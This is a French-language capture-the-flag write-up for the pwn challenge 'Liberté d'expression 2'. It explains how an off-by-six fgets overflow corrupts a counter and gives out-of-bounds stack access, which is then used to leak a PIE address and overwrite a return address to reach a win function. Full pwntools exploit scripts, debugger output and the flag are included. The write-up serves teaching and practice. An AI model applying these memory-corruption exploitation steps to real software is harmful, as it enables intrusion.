


# Pwn - Liberté d'expression 2
- Difficulté: Difficile
- Solves: 1
- Points: 500
- Auteur: Drahoxx

> Cybört a compris et n'utilise plus gets, cependant d'autres failles se sont peut-être glissées dans le code.
> Prenez le contrôle de la plateforme et révélez (de nouveau) la vérité !

On nous donne 5 fichiers:
- Le makefile
- La *libc* et le *loader*
- Le binaire *liberte_v2*
- Le **code source** (Que je n'avais pas vu pendant le ctf mais il sera utilisé ici)

# Setup
La première chose à faire est de modifier le binaire pour qu'il utilise notre libc pour qu'il se comporte comme sur le serveur distant:
```sh
pwninit --bin liberte_v2 --ld ld-linux-x86-64.so.2 --libc libc.so.6
```
ou
```sh
patchelf --set-interpreter ./ld-linux-x86-64.so.2 ./liberte_v2
patchelf --replace-needed libc.so.6 ./libc.so.6 ./liberte_v2
```
J'utiliserais dans ce writeup [gef](https://github.com/bata24/gef) (fork de bata24), une extension de gdb pour faciliter le debugging et
[pwntools](https://github.com/Gallopsled/pwntools) pour écrire mon exploit.

# Analyse

Si on regarde rapidement le code source, on peut voir une fonction `win`:
```C
// Win
void win() {
    system("cat /flag.txt");
}
```
Il nous suffit de trouver un moyen de l'appeler pour obtenir le flag.

On peut aussi utiliser `checksec` dans *gef* pour obtenir plus d'information sur le binaire:
```
Canary                            : Disabled
NX                                : Enabled
PIE                               : Enabled
RELRO                             : Full RELRO
Fortify                           : Not found
```
On peut voir qu'il y a du PIE (l'adresse du binaire est aléatoire) donc il nous faudra un leak et qu'il n'y a pas de canary (protection qui rend l'exploitation de stack buffer overflow plus difficile), on peut aussi voir ça dans le Makefile.
Le reste n'est pas très intéressant car il y a une fonction `win`.

### Recherche de vulnérabilitées
Le code est un peu long alors je vais faire un résumé:
On a un menu pour:
- Ajouter une plainte
- Modifier une plainte
- Afficher les plaintes
- Quitter

Les plaintes sont stockées dans un tableau sur la stack,
Un tableau de 5 chaines de caractères de taille 16.
```C
// Structure pour représenter une plainte
typedef struct {
    char contenu[16];
} Plainte;

// Tableau global pour stocker les plaintes
struct {
    Plainte plaintes[5];
    int nombre_plaintes;
} locals;
```

#### Modifier une plainte
Je vais directement analyser la fonction qui contient le bug pour éviter de faire un writeup trop long.
```C
// Fonction pour modifier une plainte par index
void modifier_plainte_par_index(int nombre_plaintes, Plainte plaintes[]) {
    if (nombre_plaintes == 0) {
        printf("Il n'y a aucune plainte à modifier.\n");
        return;
    }

    int index;
    printf("Entrez l'index de la plainte à modifier (0-%d): ", nombre_plaintes - 1);
    scanf("%d", &index);
    getchar(); // Pour consommer le caractère newline

    if (index < 0 || index >= nombre_plaintes) {
        printf("Index invalide.\n");
        return;
    }

    // 👀
    printf("Entrez la nouvelle plainte (max %d caractères): ", 16 - 1);
    fgets(plaintes[index].contenu, 0x16, stdin);

    // Supprimer le caractère newline si présent
    size_t len = strlen(plaintes[index].contenu);
    if (len > 0 && plaintes[index].contenu[len - 1] == '\n') {
        plaintes[index].contenu[len - 1] = '\0';
    }

    printf("Plainte modifiée avec succès.\n");
}
```
On voit à la ligne 20 (merci le commentaire 👀) que fgets écrit trop de caractères dans la plainte (0x16). En effet, 0x16 = 24 et si on compare avec la structure d'avant, 24 est plus grand que la taille maximum, 16.

# Exploitation

On a donc ici un `"Off by 6"` qui nous permet de modifier 6 octets.
Maintenant regardons la structure qui contient les plaintes pour voir ce que nous pouvons modifier.
```C
// Tableau global pour stocker les plaintes
struct {
    Plainte plaintes[5];
    int nombre_plaintes;
} locals;
```
Si on utilise le bug sur la dernière plainte (index=4), on peut totalement modifier `nombre_plaintes`.
`nombre_plaintes` est utilisé dans `modifier_plainte_par_index` pour vérifier que notres index est valide. Donc modifier cette variable nous permet d'accéder à des plaintes en dehors du tableau et d'obtenir un bug de type `"Out of bound"`, bien plus puissant que celui d'avant.


#### Contourner le PIE

On peut maintenant accéder à n'importe quel index du tableau et lire ou écrire. D'après ce que `checksec` nous a montrer, l'adresse du binaire est aléatoire (`PIE`), il nous faut donc un leak, c'est à dire lire en dehors du tableau grâce au bug et obtenir cette adresse aléatoire. J'ai écrit un début d'exploit qui permet de leak les valeurs en dehors du tableau:

```py
def exploit():
	# Fonctions pour intéragir avec le menu du binaire.
    def add(data):
        choice(1)
        sprefix(data)
    def edit(index, data):
        choice(2)
        choice(index)
        sprefix(data)
    def show():
        choice(3)
		recvu(b"Liste des plaintes:\n")
        leak = recvu(b"1. Ajouter")
        leaks = []
        for l in leak.splitlines():
            leaks.append(getb(l, b". ", b""))
        return leaks

	# Début
	
    for _ in range(5): # On ajoute 5 plaintes, pour ensuite modifier la dernière avec 24 octets.
        add(b"a")

    # On modifie la dernière plainte avec 24 octets, ici nombre_plainte sera remplacé par 0x20.
    edit(4, b"A"*0x10 + p64(0x20)[:5])
	# On peut maintenant accéder à des plaintes en dehors du tableau, jusqu'à l'index 32.

    leaks = show() # On utilise "afficher_toutes_les_plaintes" pour leak des valeurs.
    for i in range(len(leaks)):
        print("%#04x %#018x" % (i, u64(leaks[i])))

```
Il faut faire attention à ne pas écraser `nombre_plaintes` avec un nombre trop grand, sinon `afficher_toutes_les_plaintes` essayera d'afficher des plaintes au de la stack et le programme crashera, 32 est largement suffisant.
On obtient:
```py
0x00 0x0000000000000061
0x01 0x0000000000000061
0x02 0x0000000000000061
0x03 0x0000000000000061
0x04 0x4141414141414141
0x05 0x0000000000000020
0x06 0x00007fffffffe390
0x07 0x0000000000000001
0x08 0x00007fffffffe490
0x09 0x0000000155554040
0x0a 0x00007fffffffe4a8
0x0b 0x0000000000000000
0x0c 0x0000555555557d88
0x0d 0x095f9248c33eb2b6
0x0e 0x0000000000000000
0x0f 0x0000000000000000
0x10 0x00007fffffffe4a8
...
```
On peut reconnaitre plusieurs valeurs dans ce leak:
- nos 5 plaintes, de 0x00 à 0x5
- `nombre_plaintes` à l'index 0x5
- `0x0000555555557d88` à l'index 0xc, cette adresse ressemble à une adresse du binaire.

On peut aller voir dans *gef* pour confirmer, avec la commande `vmmap` qui nous affiche les adresses et à quoi elle font référence,
ici, `vmmap 0x0000555555557d88` nous montre que cette adresse apparient bel et bien au binaire:
```
Start              End                Size               Offset             Perm Path
0x0000555555557000 0x0000555555558000 0x0000000000001000 0x0000000000002000 r-- /home/meisr/.../liberte_v2
```
On peut soustraire un certain offset au leak obtenu pour avoir l'adresse base du binaire (`dist 0x0000555555557d88` dans *gef* pour obtenir cette offset rapidement).
Il nous reste plus qu'a trouver un moyen d'executer win.

#### Execution de code

Notre bug `"Out of bound"` se situe sur la stack donc là où sont stockées les adresses de retour des fonctions, si on regarde la stack sur *gef* avec la commande `telescope`, on peut trouver des adresses de retour qu'on pourrait réécrire avec notre bug:
```
+0x00 0x00007ffff7000061 'a' <- plainte 0
+0x00 0x00007ffff7e3c3e3
+0x01 0x0000000000000061 'a' <- plainte 1
+0x01 0x00007ffff7f8d760
+0x02 0x0000555555000061 'a' <- plainte 2
+0x02 0x00007ffff7e31ada
+0x03 0x00007fffff000061 'a' <- plainte 3
+0x03 0x00007fffffffe380
+0x04 0x4141414141414141 'AAAAAAAAAAAAAAAA ' <- plainte 4
+0x04 0x4141414141414141 'AAAAAAAA '
+0x05 0x0000000000000020 <- nombre_plaintes
+0x05 0x00007fffffffe4b8
+0x06 0x00007fffffffe390
+0x06 0x0000555555555721 <main+0x3a> <- retaddr
```
*gef* est sympa, il nous indique les adresses de retour avec *retaddr*. Si on regarde le code de `main` avec `disas main` dans *gef*,
on peut en conclure que cette adresse de retour correspond à celle de la fonction `main_logic`. Donc elle sera utilisé quand on quitte le menu.

Si on compte, on voit que l'adresse de retour fait partie de la plainte 6. On peut donc la modifier, remplacer l'adresse de retour par l'adresse de win et quitter le menu.
Il faut prendre en compte qu'il ne s'agit pas du début de la plainte 6, il faut rajouter 8 caractères avant ceux qui vont remplacer l'adresse de retour dans `modifier_plainte_par_index`.


Résumé:
- Ajouter 5 plaintes
- Modifier la dernière pour écraser `nombre_plainte`
- Leak l'adresse du binaire en lisant des valeurs en dehors du tableau des plaintes
- Réécrire l'adresse de retour de `main_logic` en écrivant dans la plainte 6.

#### Les problèmes
Ecrivons notre exploit:
```py
def exploit():
	# Fonctions pour intéragir avec le menu du binaire.
    def add(data):
        choice(1)
        sprefix(data)
    def edit(index, data):
        choice(2)
        choice(index)
        sprefix(data)
    def show():
        choice(3)
        recvu(b"Liste des plaintes:\n")
        leak = recvu(b"1. Ajouter")
        leaks = []
        for l in leak.splitlines():
            leaks.append(getb(l, b". ", b""))
        return leaks
    def quit():
        choice(0)

    for _ in range(5): # On ajoute 5 plaintes, pour ensuite modifier la dernière avec 24 octets.
        add(b"a")

     # On modifie la dernière plainte avec 24 octets, ici nombre_plainte sera remplacé par 0x20.
    edit(4, b"A"*0x10 + p64(0x20)[:5])
	# On peut maintenant accéder à des plaintes en dehors du tableau, jusqu'à l'index 32.

    leaks = show() # On utilise "afficher_toutes_les_plaintes" pour leak des valeurs.
    exe.address = u64(leaks[0xc]) - 0x3d88 # PIE leak
    show_leak("exe", exe.address)

    edit(6, b"A"*8 + p64(exe.sym.win)) # On réécrie l'adresse de retour par l'adresse de la fonction win.
    quit()

    io.interactive()
    input("end")
    exit()
```
Essayons le (avec gdb attaché au programme):
`Program received signal SIGSEGV, Segmentation fault.`
Ah...

Mettons un breakpoint sur l'instruction ret de `main_logic`:
```
0x5555555556e6 c3                  <main_logic+0x60>   ret
    0x555555555229 f30f1efa         <win>   endbr64
    0x55555555522d 55                  <win+0x4>   push   rbp
	...
```
C'est bizarre, on appelle bel et bien win mais ça crash quand même.
Si on continue instruction par instruction avec `ni`, on voit que le progamme meurt sur l'appelle de `system("cat /flag.txt")`, sur cette instruction:
```x86
movaps XMMWORD PTR [rsp + 0x50], xmm0
```
Avec quelque recherche, on tombe sur [movaps](https://www.felixcloutier.com/x86/movaps) qui nous explique que:
> the operand must be aligned on a 16-byte (128-bit version), 32-byte (VEX.256 encoded version) or 64-byte (EVEX.512 encoded version) boundary or a general-protection exception (#GP)

En gros, si la destination (`[rsp + 0x50]`) n'est pas aligné sur 16 bits, les 4 premier bits doivent être 0 (exemple: `0x7fffffffdff0`), alors le programme crash. `[rsp + 0x50]` dépend de la position du stack (`rsp` est le registre qui contient l'adresse de la stack) donc `rsp` doit être aligné sur 16 bits, ce qui n'est pas le cas si on regarde dans gdb.

Pour remédier à ce problème, on peut par exemple sauter sur `win+5`, cela permet de sauter le `push rbp` au début de `win` et donc de garder une adresse de stack aligné pour ne pas faire crash le programme. Sauter le `push rbp` aura des conséquences (crash) à la fin de `win` mais on aura déjà obtenu notre flag donc c'est pas grave.
Ce problème est plutôt connu en pwn, une autre technique est de rajouter un `ret` avant de sauter sur la fonction qu'on veut pour re aligner la stack (un petit ROP) mais dans ce cas il faudrait aussi écrire la plainte 7.

Script final:
J'utilise un template pour faciliter l'écriture des exploits et gagner du temps, le code de l'exploit est dans la fonction `exploit`.
```py
from pwn import *
import pwn
import random as rnd
import struct as st
from time import sleep
import re
import subprocess

context.arch = "amd64"
context.word_size = 64
context.bits = 64
context.os = "linux"

file = "./liberte_v2"
exe_args = []
io: process = None
PREFIX = b": "

speed = 0.2

def debug():
    gdb.attach(io, gdbscript=
    """
    
    """)
    input("debug")

def launch_remote():
    global file, io
    io = remote("challenges.nobrackets.fr", 10203)

def launch_local():
    global file, io
    pty = process.PTY
    io = process([file, *exe_args], stdin=pty, stdout=pty, stderr=pty) # stdin=pty to avoid pwntools messing with the file structures and the heap
    if args.GDB:
        debug()

def solve_pow():
    leak = recvu(b"===================")
    pow = getb(leak, b") solve ", b"\n").decode()
    proc = subprocess.Popen(["solvepow", "solve", pow], stdout=subprocess.PIPE, stderr=subprocess.DEVNULL)
    pow = proc.communicate()[0]
    sla(b"Solution? ", pow)

u64 = lambda d: pwn.u64(d.ljust(8, b"\0")[:8])
u32 = lambda d: pwn.u32(d.ljust(4, b"\0")[:4])
u16 = lambda d: pwn.u16(d.ljust(2, b"\0")[:2])
sla = lambda a, b: io.sendlineafter(a, b)
sa = lambda a, b: io.sendafter(a, b)
sl = lambda a: io.sendline(a)
recv = lambda: io.recv()
recvn = lambda a: io.recvn(a)
recvu = lambda a, b=False: io.recvuntil(a, b)
safe_link = lambda addr, ptr: (addr >> 12) ^ ptr
binsh = lambda: next(libc.search(b"/bin/sh\0"))
snum = lambda a, b: sla(a, str(b).encode("iso-8859-1"))
sprefix = lambda a: sla(PREFIX, a)
choice = lambda a: snum(PREFIX, a)
show_leak = lambda a, b: success("%s: %#018x" % (a, b))

def launch():
    if args.REMOTE:
        l = launch_remote
    else:
        l = launch_local
    with context.local(log_level=logging.ERROR):
        l()
    if args.POW:
        solve_pow()

def getb(d, a, b):
    a_ = d.find(a)
    if a_ == -1 or a == b"": a_ = 0
    b_ = d.find(b, a_+len(a))
    if b_ == -1 or b == b"": b_ = len(d)
    return d[a_+len(a):b_]

# ================================================================
# EXPLOIT HERE
# ================================================================

with context.local(log_level=logging.ERROR):
    exe = ELF(file)
    libc = ELF("./libc.so.6")

tries = 0
# tries_prog = log.progress("Tries")
def exploit():
    def add(data):
        choice(1)
        sprefix(data)
    def edit(index, data):
        choice(2)
        choice(index)
        sprefix(data)
    def show():
        choice(3)
        recvu(b"Liste des plaintes:\n")
        leak = recvu(b"1. Ajouter")
        leaks = []
        for l in leak.splitlines():
            leaks.append(getb(l, b". ", b""))
        return leaks
    def quit():
        choice(0)
    
    for _ in range(5): # On ajoute 5 plaintes
        add(b"a")

    # On modifie la dernière pour réécrire nombre_plainte et obtenir un "Out of bound"
    edit(4, b"A"*0x10 + p64(0x20)[:5])

    leaks = show() # On utilise le "Out of bound" pour leak des valeurs de la stack
    exe.address = u64(leaks[0xc]) - 0x3d88 # On leak une adresse du binaire (PIE leak) donc on connait l'adresse de win
    show_leak("exe", exe.address)

    edit(6, b"A"*8 + p64(exe.sym.win+5)) # On réécrire l'adresse de retour de main_logic par celle de win+5 pour éviter les problèmes de stack pas aligné.
    quit() # On quitte le menu pour sauter sur win+5

    io.interactive() # le flag
    input("end")
    exit()

launch()
exploit()
exit()

# if bruteforce is required
while True:
    count = 0
    tries += 1
    tries_prog.status(str(tries))

    launch()
    try:
        exploit()
    except EOFError:
        pass

    with context.local(log_level=logging.ERROR):
        io.close()
    # sleep(0.05)

```

```sh
$ python3 exploit.py REMOTE

[+] exe: 0x0000556a1d8d1000
[*] Switching to interactive mode
Au revoir!
NBCTF{L3ak1ng_1s_n0t_d1ff1c1l7?}
[*] Got EOF while reading in interactive
...
```

# Conclusion

J'ai trouvé le challenge intéressant par rapport au fait qu'il faut utiliser une vulnérabilité pour en provoquer une autre plus puissante.